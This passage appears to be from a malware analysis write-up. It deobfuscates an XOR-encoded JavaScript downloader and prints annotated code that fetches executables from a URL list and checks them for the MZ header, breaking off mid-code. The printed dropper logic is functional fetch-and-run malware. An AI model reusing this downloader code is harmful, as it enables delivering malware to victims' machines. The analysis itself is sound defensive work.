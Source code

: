 ```
        }
    }
}
```

We can start to guess what sort of code this is, but it is also clear that most of the meat is hidden under those **XOR**d strings. I went ahead and wrote a quick script to translate this, in javascript so I could just use the original `xor_hex_charcode_string` function taken from the malware code (yay lazyness!):
```
content = require('fs').readFileSync(require('process').argv[2], {encoding: "utf-8"});
replaced = content.replace(
        /xor_hex_charcode_string\("([^"]*)",\s*"([^"]*)"\)/gi,
        function (_, string, key) {
            return '"' + xor_hex_charcode_string(string, key) + '"';
        }
);
console.log(replaced);
```

This pretty much revealed the real functionality of the malware. After concatenating a few strings here and there, we got a pretty simple script, which I have annotated here for your viewing pleasure:

```
// First of all, a list of urls, with an identifying number and some flags
var URLs = "http://example.com/executable.exe|0|1|0,http://example.com/executable.exe|1|1|0,http://example.com/executable.exe|2|1|0";
URLs = URLs.split(",");
var array_of_checked_urls = [];
for (var f = 0; f < URLs.length; f++) {
    // For each URL the system extracts the needed information
    var url_parts = URLs[f].split("|");
    var url = url_parts[0];
    var identifier_number = url_parts[1];
    var file_extension_flag = parseInt(url_parts[2]); // If this is 0, the downloaded file is a .dll, otherwise an .exe
    var argument_to_rundll32 = url_parts[3]; // If the previous number is a 0, then the payload is run with rundll32, and this is passed as an arg
    if (1 == array_of_checked_urls[identifier_number]) {
        // Do nothing if in the url was run already
    } else {
        // Build a shell, as file system and an AJAX ActiveX objects.
        var WScriptShell = build_activex_object("wscript.shell");
        var ScriptingFileSystemObject = build_activex_object("scripting.filesystemobject");
        var MSXML2XMLHTTPActiveXObject = build_activex_object("msxml2.xmlhttp");

        // Do a GET to the url
        MSXML2XMLHTTPActiveXObject.open("GET", url, 0);
        MSXML2XMLHTTPActiveXObject.send();

        if (200 == MSXML2XMLHTTPActiveXObject.status) {
            // An ADODB Stream object is created, type binary
            var ADODBStreamActiveXObject = build_activex_object("adodb.stream");
            ADODBStreamActiveXObject.open();
            ADODBStreamActiveXObject.type = 1;
            
            var responseBody = MSXML2XMLHTTPActiveXObject.responsebody;
            
            // They actually check that the first two bytes of the downloaded content are MZ, the magic
            // number for Windows executables. Otherwise it won't do anything.
            var responseTextFirst2Char = MSXML2XMLHTTPActiveXObject.responsetext.substr(0, 2);
            if (responseTextFirst2Char == "MZ") {
                // The response from the XMLHTTP request is put into the ADODB stream
```